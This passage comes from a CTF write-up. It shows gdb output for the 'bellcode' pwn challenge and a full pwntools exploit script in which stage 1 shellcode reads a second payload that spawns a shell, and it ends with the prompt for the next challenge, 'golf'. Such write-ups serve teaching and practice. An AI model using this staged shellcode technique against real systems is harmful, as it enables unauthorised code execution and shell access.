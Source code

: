 If we run this in gdb, 

![image](attachments/pwn/belcode/gdb2.png)

Success! We see our shellcode being run here.

After our shellcode finishes running, we **SIGSEGV** at `0xfac309`. 

However, thanks to our stage 2 **read**, we are able to write a normal shellcode to pop a shell at that point. For this second shellcode, for convenience sake, we will just use **pwnlib.shellcraft**.

### Exploit Script

```python
from pwn import *

context.arch = 'amd64' # tell pwntools to assemble our shellcode in x64

p = process('./bellcode')

# stage 1 shellcode to read 0xfac300 bytes into 0xfac300
shellcode = asm("""
push rax
pop rdi
mov esi, 0xfac300
syscall
""")

p.sendline(shellcode)

# stage 2 shellcode to place our shellcode to pop a shell on the stack
p.sendline(b"A"*len(shellcode) + asm(shellcraft.sh()))

p.interactive()
```

## golf (428 pts) - 30 solves
---

>
> Some challenges provide source code to make life easier for beginners. Others provide it because reversing the program would be too time consuming for the CTF. Still others, like this one, do it just for the memes.
> Author: Eth007
> 
> [golf](attachments/pwn/belcode/golf/golf)  [golf.c](attachments/pwn/belcode/golf/golf.c)
> 
